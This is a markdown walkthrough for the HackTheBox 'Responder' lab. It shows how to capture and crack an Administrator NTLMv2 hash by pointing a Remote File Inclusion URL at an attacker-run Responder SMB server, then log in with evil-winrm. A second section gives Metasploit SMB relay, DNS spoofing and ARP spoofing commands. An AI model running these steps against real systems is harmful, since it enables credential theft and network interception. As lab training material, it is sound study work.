

 
We can set a SMB server on our machine and use the Remote File Inclusion to access a random file of our server so we can get the NTLMv2 hash from the target while authenticating to our SMB server. 

The server authenticates the client with a Challenge-Response protocol:


- The Hello contains the UID
- The Challenge message is a random string.
- The Response message contains the `resp1 = hash(challenge, password)`
- The server authenticates the user by computing `resp2 = hash(challenge, password)`
- If `resp1 == resp2` then authentication is successful

The idea of the attack is to crack the hash and retrieve the SMB credentials.

---

# Manual Exploitation

- Check that the responder configuration file has the SMB server enabled
```sh
cat /usr/share/responder/Responder.conf 
```

- Start the SMB server (responder):
```sh
sudo responder -I tun0
```

- Access the SMB server from the target machine:
```http
http://unika.htb/index.php?page=//<LOCAL_IP>/somefile
```

> [!NOTE]
> Here we are accessing the SMB server through a Remote File Inclusion (RFI) vulnerability

- In responder we should get a hash like the following one:
```sh
[SMB] NTLMv2-SSP Client   : 10.129.95.234
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:635ea63d7c77c17a:C3E9B84A0284FC17EE87A8EF5768CE4A:01010000000000008096A0CDAADADA01EA90DF43B6CF2852000000000200080032004D0043005A0001001E00570049004E002D005A005A005A0035004D005A003800420033005600390004003400570049004E002D005A005A005A0035004D005A00380042003300560039002E0032004D0043005A002E004C004F00430041004C000300140032004D0043005A002E004C004F00430041004C000500140032004D0043005A002E004C004F00430041004C00070008008096A0CDAADADA0106000400020000000800300030000000000000000100000000200000CD5099F33776B57CF6FF74AE46C85DBE6AB5E9D3C7F78E6E7D2B6A10532100610A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00340034000000000000000000 
```

- Crack the hash:
```sh
$ echo "Administrator::RESPONDER:635ea63d7c77c17a:C3E9B84A0284FC17EE87A8EF5768CE4A:01010000000000008096A0CDAADADA01EA90DF43B6CF2852000000000200080032004D0043005A0001001E00570049004E002D005A005A005A0035004D005A003800420033005600390004003400570049004E002D005A005A005A0035004D005A00380042003300560039002E0032004D0043005A002E004C004F00430041004C000300140032004D0043005A002E004C004F00430041004C000500140032004D0043005A002E004C004F00430041004C00070008008096A0CDAADADA0106000400020000000800300030000000000000000100000000200000CD5099F33776B57CF6FF74AE46C85DBE6AB5E9D3C7F78E6E7D2B6A10532100610A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00340034000000000000000000" > hash

$ john --format=netntlmv2 hash --wordlist=/usr/share/wordlists/rockyou.txt
```

- Connect to the target machine:
```sh
evil-winrm -i TARGET_IP -u administrator -p PASSWORD
```

---
# Automated exploitation (using Metasploit)

- Setup the SMB server:
```bash
msf> use exploit/windows/smb/smb_relay
msf> set SRVHOST LOCAL_IP
msf> set LHOST LOCAL_IP
msf> set SMBHOST TARGET_SMB_SERVER (spoofed IP)
msf> run
```

- Configure DNS spoofing to DNS spoof and redirect the victim to our MSF every time there is a SMB connection to any host on the domain:
```bash
$ echo "LOCAL_IP *.DOMAIN" > dns (echo "LOCAL_IP *.sportsfoo.com")
$ dnsspoof -i INTERFACE -f dns (dnsspoof -i eth1 -f dns)
```

- MITM attack: perform ARP spoofing to poison the traffic between the victim and the default gateway:
```bash
1. Enable IP forwarding:
$ echo 1 > /proc/sys/net/ipv4/ip_forward
2. Start the ARP spoof attack:
$ arpspoof -i INTERFACE -t VICTIM_IP DEFAULT_GATEWAY_IP 
$ arpspoof -i INTERFACE -t DEFAULT_GATEWAY_IP VICTIM_IP
```

Now every time the victim host starts an SMB connection, DNS spoof will forge the DNS replies that the DNS address they are looking for is the attack host, 

# HTB Machines
- Responder (Starting Point Tier 1)